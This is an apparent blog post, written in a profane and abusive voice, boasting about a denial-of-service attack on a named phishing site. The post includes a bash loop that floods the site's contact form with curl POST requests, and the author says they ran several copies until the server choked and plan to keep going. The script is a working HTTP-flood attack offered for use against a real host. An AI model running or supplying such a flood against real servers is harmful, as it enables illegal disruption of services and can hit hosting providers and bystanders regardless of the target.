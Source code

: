 ```yaml
---
title:       "DDoS phishing site"
description: "How to DDoS a shitty phishing site run by idiots."
date:        "2016-01-01"
layout:      "post.hbs"
collection:  "blog"
---
```


[wareztugacontas.com](http://www.wareztugacontas.com/) is a phishing site for the no longer existing wareztuga.tv, which was a Portuguese warez site that streamed movies and TV shows.

If you're so openly running a phishing site, at least put in the effort to avoid being DDoSed so easily. A security question in your form isn't going to stop anyone if the question is always the same, you fucking idiot.

```bash
#! /usr/bin/env bash

while true; do
  curl --data "email=eat_shit_and_die&comments=eat_shit_and_die&verify=4" http://www.wareztugacontas.com/contact.php
done
```

This is a very basic classic HTTP flood attack in bash that will POST to the server forever. If you can't protect yourself from something that could have been avoided so easily, you're kind of stupid.

I launched a few instances of the script on my laptop and the server at [wareztugacontas.com](http://www.wareztugacontas.com/) choked in less than a minute. I'm gonna keep doing it just for fun.

Karma is a bitch, huh?
